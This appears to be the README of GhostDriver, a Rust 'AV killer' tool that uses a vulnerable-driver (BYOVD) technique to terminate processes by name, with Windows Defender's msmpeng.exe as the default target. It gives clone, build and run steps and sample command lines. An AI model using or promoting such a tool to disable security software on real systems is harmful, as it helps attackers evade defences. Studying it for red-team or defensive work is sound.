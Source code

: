 # GhostDriver 👻

## About
GhostDriver is a Rust-built AV killer tool using BYOVD.

## Get Started
1. Install Rust from [rust-lang.org](https://www.rust-lang.org)
2. Clone: `git clone https://github.com/BlackSnufkin/GhostDriver.git`
3. Build: `cargo build --release  --target=x86_64-pc-windows-msvc`
4. Run: Execute the GhostDriver binary

- Change line 3307 for the defualt Process names

```text
// Define default process names
let default_process_names = vec!["msmpeng.exe"];
```

## Usage:
```text
GhostDriver.exe 2.0
BlackSnufkin
Kills processes by name using a Ghost Driver

USAGE:
    GhostDriver.exe [FLAGS] [OPTIONS]

FLAGS:
    -h, --help       Prints help information
    -v, --version    Prints version information

OPTIONS:
    -n, --name=process_names

USAGE:
        .\GhostDriver.exe -n msmpeng.exe,svchost.exe
        .\GhostDriver.exe --name msmpeng.exe
        .\GhostDriver.exe (uses default processes)

```


# POC

![gd2](https://github.com/BlackSnufkin/GhostDriver/assets/61916899/0b465997-c3ea-45b5-86da-61e4551636fe)


# Reference
- https://github.com/keowu/BadRentdrv2
- https://unit42.paloaltonetworks.com/agonizing-serpens-targets-israeli-tech-higher-ed-sectors

